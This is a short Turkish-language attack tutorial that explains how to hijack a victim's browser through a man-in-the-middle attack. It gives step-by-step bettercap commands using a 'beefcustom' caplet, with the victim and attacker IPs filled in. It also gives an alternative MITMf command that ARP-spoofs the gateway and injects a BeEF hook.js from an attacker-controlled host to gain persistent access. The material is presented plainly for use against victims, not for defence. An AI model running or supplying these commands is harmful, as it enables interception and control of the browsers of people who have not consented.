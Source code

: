 ## JS Enjeksiyonu
- Kurban browserı kapattığında erişim kaybı yaşanır. Ancak man in the middle saldırısı ile zararlı JS enjeksiyonu yapmamız halinde kullanıcının girdiği sitelerden bağımsız kalıcı erişim sağlanır.
- Bunun için beefcustom caplet'i kullanabiliriz.
- usr/share/bettercap/caplets yoluna gidilir, indirilen beefcustom klasörü buraya yerleştirilir.
- beefcustom.cap dosyası düzenlenir, target ip'ye kurban ip yazılır.
- beefcustom.js dosyası düzenlenir, son satırdaki script kodunda ip kısmına saldırgan ip'si yazılır.
- bettercap -iface (interface)
- bettercap -iface (interface) -caplet /usr/share/bettercap/caplets/beefcustom/beefcustom.cap
- Böylece kullanıcı browser kullandığı anda kalıcı erişim sağlanır.

### Alternatif
- python mitmf.py -arp -spoof -gateway (modem ip) -target (kurban ip) -i (interface) -inject -js-url http://(saldırgan ip):3000/hook.js